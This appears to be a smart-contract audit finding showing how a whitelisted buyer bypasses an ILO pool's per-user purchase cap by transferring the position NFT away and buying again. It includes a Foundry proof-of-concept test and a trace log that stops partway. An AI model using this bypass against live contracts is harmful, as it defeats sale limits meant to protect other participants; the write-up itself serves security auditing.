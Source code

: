 Thus, a whitelisted user could bypass the check by transferring NFT to another address and continue buying with a newly minted NFT. This makes the maxCapPerUser useless, as it only checks the purchase based on tokenId.

A Test PoC in Foundry is shown below. It could be observed that the INVESTOR could buy as he wants as long as he transfers out NFT to any other address.
```
    function testBypassBuyTooMuch() external {
        _prepareBuy();
        (uint256 tokenId,) = _buyFor(INVESTOR, SALE_START+1, 60000 ether);
        vm.prank(INVESTOR);
        IILOPool(iloPool).transferFrom(INVESTOR, address(2), tokenId);
        _buyFor(INVESTOR, SALE_START+2, 10000 ether);
    }
```
The logs are shown below:
```
Ran 1 test for test/ILOPool.t.sol:ILOPoolTest
[PASS] testBypassBuyTooMuch() (gas: 1113145)
Traces:
  [1113145] ILOPoolTest::testBypassBuyTooMuch()
    ├─ [0] VM::prank(0x9965507D1a55bcC2695C58ba16FB37d819B0A4dc)
    │   └─ ← [Return] 
    ├─ [80189] 0xa2dCd3d28c5caE237De80B47289a0082278CCB85::batchWhitelist([0x976EA74026E726554dB657fA54763abd0C3a0aa9])
    │   ├─ [79408] ILOPool::batchWhitelist([0x976EA74026E726554dB657fA54763abd0C3a0aa9]) [delegatecall]
    │   │   ├─ [8955] ILOManager::project(0x8005a9E9643F2e5E165c67a5162c5169C278B7b4) [staticcall]
    │   │   │   └─ ← [Return] Project({ admin: 0x9965507D1a55bcC2695C58ba16FB37d819B0A4dc, saleToken: 0xd8D1e90d913Fff1F2a181E42a8Ef62EABFd29A2A, raiseToken: 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, fee: 500, initialPoolPriceX96: 158456325028528675187087900672 [1.584e29], launchTime: 1717606800 [1.717e9], refundDeadline: 1718211600 [1.718e9], investorShares: 0, uniV3PoolAddress: 0x8005a9E9643F2e5E165c67a5162c5169C278B7b4, _cachedPoolKey: PoolKey({ token0: 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, token1: 0xd8D1e90d913Fff1F2a181E42a8Ef62EABFd29A2A, fee: 500 }), platformFee: 10, performanceFee: 1000 })
    │   │   ├─ emit SetWhitelist(user: 0x976EA74026E726554dB657fA54763abd0C3a0aa9, isWhitelist: true)
    │   │   └─ ← [Stop] 
    │   └─ ← [Return] 
    ├─ [0] VM::prank(0x976EA74026E726554dB657fA54763abd0C3a0aa9)
    │   └─ ← [Return] 
    ├─ [26062] 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48::approve(0xa2dCd3d28c5caE237De80B47289a0082278CCB85, 1000000000000000000000000000 [1e27])
    │   ├─ [23273] 0x43506849D7C04F9138D1A2050bbF3A0c054402dd::approve(0xa2dCd3d28c5caE237De80B47289a0082278CCB85, 1000000000000000000000000000 [1e27]) [delegatecall]
    │   │   ├─ emit Approval(owner: 0x976EA74026E726554dB657fA54763abd0C3a0aa9, spender: 0xa2dCd3d28c5caE237De80B47289a0082278CCB85, value: 1000000000000000000000000000 [1e27])
    │   │   └─ ← [Return] true
    │   └─ ← [Return] true
    ├─ [0] VM::record()
    │   └─ ← [Return] 
    ├─ [4039] 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48::balanceOf(0x976EA74026E726554dB657fA54763abd0C3a0aa9) [staticcall]
    │   ├─ [1253] 0x43506849D7C04F9138D1A2050bbF3A0c054402dd::balanceOf(0x976EA74026E726554dB657fA54763abd0C3a0aa9) [delegatecall]
    │   │   └─ ← [Return] 0
    │   └─ ← [Return] 0
    ├─ [0] VM::accesses(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48)
    │   └─ ← [Return] [0x10d6a54a4754c8869d6886b5f5d7fbfa5b4522237ea5c60d11bc4e7a1ff9390b, 0x7050c9e0f4ca769c69bd3a8ef740bc37934f8e2c036e5a723fd8ee048ed3f8c3, 0xe5edfbb1a168440ed929bb6e6e846a69c257cb12652e468fc03b05a005956076], []
    ├─ [0] VM::load(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, 0x10d6a54a4754c8869d6886b5f5d7fbfa5b4522237ea5c60d11bc4e7a1ff9390b) [staticcall]
    │   └─ ← [Return] 0x000000000000000000000000807a96288a1a408dbc13de2b1d087d10356395d2
```
